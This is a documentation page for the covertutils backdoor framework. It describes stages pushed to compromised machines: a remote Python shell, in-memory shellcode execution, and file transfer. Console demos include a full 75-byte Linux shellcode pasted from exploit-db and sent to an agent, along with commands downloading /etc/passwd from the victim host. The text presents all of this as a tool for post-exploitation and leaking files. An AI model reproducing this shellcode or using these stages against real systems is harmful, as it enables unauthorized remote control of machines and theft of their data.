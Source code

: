 
.. _stages_page:

Beyond the OS Shell
===================

The ``covertutils`` package has an API for creating custom stages that can be dynamically loaded to compromised machines.
If a :class:`covertutils.handlers.stageable.StageableHandler` is running in a pwned machine stages can be pushed to it.

The API is fully documented in the :ref:`stage_api_page` page.



.. _pythonapi-stage:

The `Python` Stage
------------------

A Python shell with access to all internals is available.

The sent code runs directly in the `covertutils stage API`,
so it is able to access the ``storage`` and ``storage['COMMON']`` dictionaries and change internals objects at runtime.

.. code:: bash

	(127.0.0.1:49550)>
	(127.0.0.1:49550)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[99] - EXIT
	Select stream: 1
	[python] >>>
	[python] >>> print "Python module with access to the Stager API"
	[python] >>> Python module with access to the Stager API


	[python] >>> @
	No special command specified!
	Available special commands:
		@clear
		@show
		@storage
		@send
		@pyload
	[python] >>> @storage

	[python] >>> {'COMMON': {'handler': <covertutils.handlers.impl.standardshell.StandardShellHandler object at 0x7f6d472c9490>},
	 'on': True,
	 'queue': <Queue.Queue instance at 0x7f6d47066b90>}

	[python] >>> if "indentation is found" :
	[python] ...     print "The whole code block gets transmitted!"
	[python] ...
	[python] >>> The whole code block gets transmitted!

	[python] >>>
	[python] >>> print "@pyload command loads python files"
	[python] >>> @pyload command loads python files

	[python] >>> @pyload /tmp/pycode.py
	Buffer cleared!
	File '/tmp/pycode.py' loaded!
	[python] >>> @show
	====================
	print "This code exists in a file"

	====================
	[python] >>>
	[python] >>> This code exists in a file

	[python] >>>
	(127.0.0.1:49550)>






The `Shellcode` Stages
----------------------

When one can directly run stuff in a process, why not run some `shellcode` too?

And do it **directly from memory** please!

Runnning `shellcode` requires the following things:

 - Acquiring the shellcode!
 - Copying it to memory, to a known memory location
 - Making that location executable at runtime
 - ``jmp`` ing to that location

So ``covertutils`` has 2 `stages` that utilize ``ctypes`` built-in package to do the right things and finally run `shellcode`!
They are located under :mod:`covertutils.payloads.linux.shellcode` and :mod:`covertutils.payloads.windows.shellcode`.

A `SubShell` is also available that translates copy-pasted `shellcodes` from various sources to raw data, before sending them over to a poor `Agent`.


.. code:: bash

	(127.0.0.1:51038)> !stage mload covertutils.payloads.linux.shellcode
	 shellcode

	(127.0.0.1:51038)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[ 3] - shellcode
		[ 4] - stage
		[99] - EXIT
	Select stream: 3
	This shell will properly format shellcode
		pasted from sources like "exploit-db.com" and "msfvenom"
	[shellcode]>
	[shellcode]>
	[shellcode]> unsigned char code[]= \

	Type 'GO' when done pasting...
	[shellcode]> "\x6a\x66\x58\x99\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x5b\x5e\x52"

	Type 'GO' when done pasting...
	[shellcode]> "\x66\x68\x11\x5c\x52\x6a\x02\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd"

	Type 'GO' when done pasting...
	[shellcode]> "\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93"

	Type 'GO' when done pasting...
	[shellcode]> "\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x2f\x2f\x73\x68\x68\x2f\x62"

	Type 'GO' when done pasting...
	[shellcode]> "\x69\x6e\x89\xe3\x50\x89\xe1\xb0\x0b\xcd\x80";

	Type 'GO' when done pasting...
	[shellcode]>
	[shellcode]> GO

	Type 'GO' when done pasting...
	====================
	Pasted lines:
	unsigned char code[]= \
	"\x6a\x66\x58\x99\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x5b\x5e\x52"
	"\x66\x68\x11\x5c\x52\x6a\x02\x6a\x10\x51\x50\x89\xe1\xb0\x66\xcd"
	"\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93"
	"\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x2f\x2f\x73\x68\x68\x2f\x62"
	"\x69\x6e\x89\xe3\x50\x89\xe1\xb0\x0b\xcd\x80";


	Length of 75 bytes

	Shellcode in HEX :
	6a6658995343536a0289e1cd805b5e526668115c526a026a10515089e1b066cd80894104b304b066cd8043b066cd809359b03fcd804979f9682f2f7368682f62696e89e35089e1b00bcd80

	Shellcode in BINARY :
	jfX�SCSj��̀[^Rfh\RjjQP���f̀�A��f̀C�f̀�Y�?̀Iy�h//shh/bin��P���

	====================
	Send the shellcode over? [y/N] y
	[shellcode]>

* The `shellcode` used in the demo is taken from https://www.exploit-db.com/exploits/42254/


Oh, and on more thing! `Shellcodes` do no need to be `Null Free` (of course!). The string termination is on Python, and they are transmitted **encrypted by design** anyway.



The `File` Stage
------------------

What good is a backdoor if you can't use it to **leak files**? Or even upload executables and that kind of stuff.

Actually, after the first smile when the pure `netcat reverse shell oneliner` returns, doing stuff with it becomes a pain really fast.
And the next step is trying to ``wget`` stuff with the non-tty shell, or copy-pasting `Base64 encoded` files from the screen.

Miserable things happen when there aren't specific commands for file upload/download to the compromised system. And out-of-band methods (`pastebin`, `wget`, etc) can easily be identified as abnormal...

The ``covertutils`` package has a `file` stage and subshell, to provide file transfers from the `Agent` to the `Handler` and vice-versa in an in-band manner (using the same `Communication Channel`).

.. code:: bash

	(127.0.0.1:56402)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[ 3] - file
		[ 4] - stage
		[99] - EXIT
	Select stream: 3
	=|file]> ~ help download
	download <remote-file> [<location>]

	=|file]> ~
	=|file]> ~ download /etc/passwd
	=|file]> ~ File downloaded!

	=|file]> ~ download /etc/passwd renamed.txt
	=|file]> ~ File downloaded!

	=|file]> ~ help upload
	upload  <local-file> [<remote-location>]

	=|file]> ~
	=|file]> ~ upload /etc/passwd myusers
	=|file]> ~ File uploaded succesfully!

	=|file]> ~
	=|file]> ~ upload /etc/passwd
	=|file]> ~ File uploaded succesfully!


.. warning:: Providing file transfer `in-band` is a double-edged knife.

	If the `Communication Channel` is a TCP connection then files will flow around nicely (taking also advantage of the embedded compression, see: :ref:`compressor_component` ).
	But if the `Communication Channel` is a `covert TCP backdoor` or such `super-low-bandwidth` channel, a 1MB file will `take forever to download`, taking over the whole channel. An out-of-band approach should be considered in this case.

.. warning:: Transfer of files can trigger the :class:`StreamIdentifier`'s `Birthday Problem` (TODO: document it) destroying 1 or more `streams` (the `control stream` should still work to ``!control reset`` the connection). For heavy use of file transferring, a bigger ``tag_length`` should be used on the :class:`Orchestrator` passed to the :class:`Handler` object.
